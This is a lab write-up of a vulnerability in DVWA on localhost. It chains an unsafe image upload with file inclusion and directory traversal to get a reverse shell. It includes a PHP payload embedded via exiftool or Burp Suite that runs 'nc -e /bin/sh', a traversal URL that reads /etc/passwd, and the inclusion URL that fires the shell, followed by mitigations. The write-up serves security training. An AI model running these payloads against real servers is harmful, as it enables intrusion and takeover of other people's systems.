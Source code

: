 # File upload vulnerability and file inclusion leads to reverse shell

**Summary:**

File upload vulnerability with directory traversal to start a reverse shell.

**Description:**

PHP code can be uploaded via file upload with the use of exiftool or burp suite. Then the user can use a file inclusion / directory traversal to run the php script to get access to a reverse shell which they can use to escalate their privileges.

Affected URLs and affected objects: 
- http://localhost/DVWA/vulnerabilities/upload/ the file upload form upload the payload

    ![Alt text](image.png)

- http://localhost/DVWA/vulnerabilities/fi/?page=include.php the URL to access the payload

    ![Alt text](image-1.png)

**Severity:**

P1: Critical 

Server-Side Injection > File Inclusion

Server Security Misconfiguration > Unsafe File Upload

**Steps to Reproduce:**

Setup: Set Security Level to high (after logging in).

![Alt text](image-14.png)

1. Find a jpg and run the command in terminal: 
`exiftool -Comment="<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>" image.jpg`

![Alt text](image-2.png)

2. Rename the image from image.jpg to image.php.jpg

![Alt text](image-3.png)

3. Upload the image.php.jpg file and you will get the file path in the message:
../../hackable/uploads/image.php.jpg successfully uploaded!

![Alt text](image-5.png)

4. Start a netcat listener with the command:
nc -lvnp 4444

![Alt text](image-6.png)

5. Visit the path at ../../hackable/uploads/image.php.jpg and copy down it's url:
`http://localhost/DVWA/hackable/uploads/image.php.jpg`

![Alt text](image-8.png)

6. Go to the File Inclusion page 

![Alt text](image-7.png)

6. Test for file inclusion vulnerability in the url:
`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../../../../../etc/passwd`

![Alt text](image-9.png)

7. Make sure your netcat listener is running in the terminal (step 4). Now change url for the file inclusion vulnerability to view the image.php.jpg file in the url:

`http://localhost/DVWA/vulnerabilities/fi/?page=file1.php||page=../../../../hackable/uploads/image.php.jpg`

![Alt text](image-10.png)

8. Look back at your netcat listener and type id and you will find you have access to a shell with the www-data user and you can then try to gain escalated privileges with that user.

![Alt text](image-12.png)

![Alt text](image-13.png)

Note: the website will be frozen until you exit the shell in your terminal.

Other Method: Burp Suite Steps

1. Find an image file. 

2. When uploading the file, go to Burp Suite intercept and at the end of the image data add the php code: 
`<?php echo system('nc -e /bin/sh 127.0.0.1 4444') ?>`

![Alt text](image-17.png)

3. Then forward the upload request. 

Then follow the steps from step 5 but make sure you visit the file you uploaded even if it doesn't contain .php. As long as the php code is uploaded in the data when the file is called with the file inclusion vulnerability it will run in the html code. Make sure to have netcat listener running to get a reverse shell.

**Impact**

You can gain access to a reverse shell which can lead to command execution on the server and try to escalate your privileges.

This happens because when the file is called with the file inclusion vulnerability, the web picks up that it's php code and it runs with the html elements.

**Recommended Mitigations**

Mitigation 1

Files should be scanned for malware and php code so they can be flagged for deletion. 

I found a PHP Antimalware Scanner which claims it removes dangerous functions, exploits and signatures. The dangerous functions include `system` and `shell_exec`.

Explanation link: https://marcocesarato.github.io/PHP-Antimalware-Scanner/#:~:text=PHP%20Antimalware%20Scanner%20is%20a,seem%20to%20contain%20malicious%20code.

GitHub: https://github.com/marcocesarato/PHP-Antimalware-Scanner 

Mitigation 2

Make sure that no special characters are allowed in the file inclusion path. For example, '|' should not have been accepted, and any ../ even if they are encoded, they should not be allowed. 

Make an if statement with the filenames that you expect the user to input. You can go through a list of predetermined values and if the user input matches the filename then the resource can be used. Otherwise, all other requests are dropped. Users should only be allowed to view what they are expected to view.
